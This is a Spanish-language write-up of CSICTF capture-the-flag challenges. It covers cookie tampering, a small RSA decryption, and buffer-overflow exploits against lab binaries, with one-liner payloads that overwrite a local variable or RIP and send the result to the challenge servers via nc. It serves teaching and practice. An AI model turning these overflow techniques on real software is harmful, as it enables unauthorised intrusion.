

CSICTF
Evento patrocinado por Bugsee, TryHackMe, Scf y Voiceflow, muy entretenido ;D.
Aquí algunos retos que pude realizar.
Web
Oreo
“My nephew is a fussy eater and is only willing to eat chocolate oreo. Any other flavour and he throws a tantrum.”
Nada extraño, el reto tenia una cookie con la palabra “strawberry” codificada en URL y Base64 simplemente la cambie por “Oreo”
pero no funcionó, sin embargo al cambiarlo a “chocolate” la flag fue mostrada.

Linux
AKA
Cows are following me everywhere I go. Help, I’m trapped!
nc chall.csivit.com 30611
1 | $ nc chall.csivit.com 30611 |
Este era un Reto el cual al conectarse era una vaquita que solo dice “moo” al poner comandos como ls, cat , pwd etc.
Suponiendo que esta realizando una validación de los comandos pero no de Bash hicimos lo siguiente:
1 | user @ csictf: $ |
Crypto
Little RSA
The flag.zip contains the flag I am looking for but it is password protected. The password is the encrypted message which has to be correctly decrypted so I can useit to open the zip file. I tried using RSA but the zip doesn’t open by it. Can you help me get the flag please?
Files: a.txt flag.zip
Aqui daban 2 archivos, un zip que tenia una contraseña y un archivo a.txt que tenia esto:
c=32949
n=64741
e=42667
Utilizando una herramienta llamada RsaCtfTool pude realizar el reto
1 | python RsaCtfTool -n 64741 -e 42667 --uncipher 32949 |
La contraseña era 18429:
y la flag: csictf{gr34t_m1nds_th1nk_4l1ke}
Pwn
pwn intended 0x1
Normalmente cuando hago un reto de pwn sigo estos pasos:
-Hacer un file: Para saber que tipo de binario es.
-Ejecutarlo: Para saber que hace.
-Strings: Luego muestra la contraseña o la flag.
-Pasarle muchas letras: Esto debido a que la mayoria de los retos de pwn son BufferOverflow y esperamos como respuesta un Segmentation Fault
-Revisar que controles tiene: Canary, RELO etc.
-Debuguearlo: Para ir paso a paso que hace.
Este era uno de los casos en el que la bandera salia haciendo esas pruebas. Al pasarle 200 A’s el programa pasaba por Buffer Overflow y trataba de hacer un cat a flag.txt la prueba fue echa en mi maquina pero al hacerlo en el servidor mostraba la flag.
1 | # python -c "print('A'*200)" | ./pwn-intended-0x1 |
pwn intended 0x2
Entramos en las ligas pesadas y este era un caso en el cual no daban el codigo del binario. Al vuelo era un ELF de 64 lo ejecute y de igual manera le pase muchas A’s.
1 | # python -c "print('A'*200)" | ./pwn-intended-0x2 |
No nos dio la flag por lo que decide abrirlo con GDB, revisando la función main hace una comparación de una variable local con 0xcafebabe y muestra algo mediante puts… pero si no es correcto, sale del programa. Ahora al hacer la prueba nos dio Segmentation faulty eso es por que el binario utiliza gets una función vulnerable de C. Por lo que podriamos aprovecharnos de gets y sobreescribir la variable local que esta en rbp-0x4 con la que esta comparando ;D.
1 | 0x0000000000401156 <+0>: push rbp |
Aqui les enseño un truco de LiveOverflow:
El utiliza hooks para poder mostrar registros en tiempo de ejecución, esto es importante por que al entrar a un frame de cada función podemos tener control de los datos que se llenan en la PILA(Stack).
Primero se ponen breakpoints donde se hace la asignación de la variable local y en donde realiza la comparación.
1 | gdb-peda$ b *0x00000000004011ca |
Despues definimos el hook:
1 | gdb-peda$ define hook-stop |
Ejecuto el programa con el comando > r en GDB. y reviso las salidas.
1 | 0x7fffffffdef0: 0x00000000 0x00000000 0x00000000 0x00000000 |
Como veran la pila se ve limpia no tiene nada pero ahora si quiero saber cuanto debo sobreescribir necesito un patron eso se hace con el comando cyclicviene en pwntools cuando se instala.
1 | # cyclic 200 |
Continuo con el programa con el comando > c en GDB y le paso el patron o payload.
1 | gdb-peda$ c |
Reviso la pila para ver que tiene, esto lo hace automaticamente el hook que definimos. Como recordaran la variable local se encuentra alojada en rbp-0x4, por lo tanto …….
1 | gdb-peda$ x/wx $rbp-0x4 |
Con el mismo cyclic reviso el offset de ese valor.
1 | # cyclic -l 0x6161616c |
Vientos son 44 -> eso quiere decir que a debo rellenar la pila con 44 valores basura y despues con 0xcafebabe para que suelte la flag.
1 | python -c "from pwn import *;print('A'*44 + p64(0xcafebabe))" | nc chall.csivit.com 30007 |
pwn intended 0x3
El reto posiblemente mas simple.
Consistia en un binario que al igual que los 2 anteriores solicitaba una entrada de datos, conforme a los pasos descritos en 0x1 procedi a realizar la prueba
1 | # ./pwn-intended-0x3 |
Revisando el binario nuevamente hace uso de la función gets, sin embargo tiene otra función que se llama flag que en ningún otro lado esta siendo usado, por lo que decidi aprovechar gets sobreescribir RIP y dirigirme a flag.
Esto se realiza dentro de GDB simplemente con el comando pattern_ .
1 | gdb-peda$ pattern_create 200 pattern |
RSP se rellena con un offset de 40, esto quiere decir que podemos controlar RIP despues de esos 40:
1 | python -c "from pwn import *;print('A'*40 + p64(0x00000000004011ce))" | nc chall.csivit.com 30013 |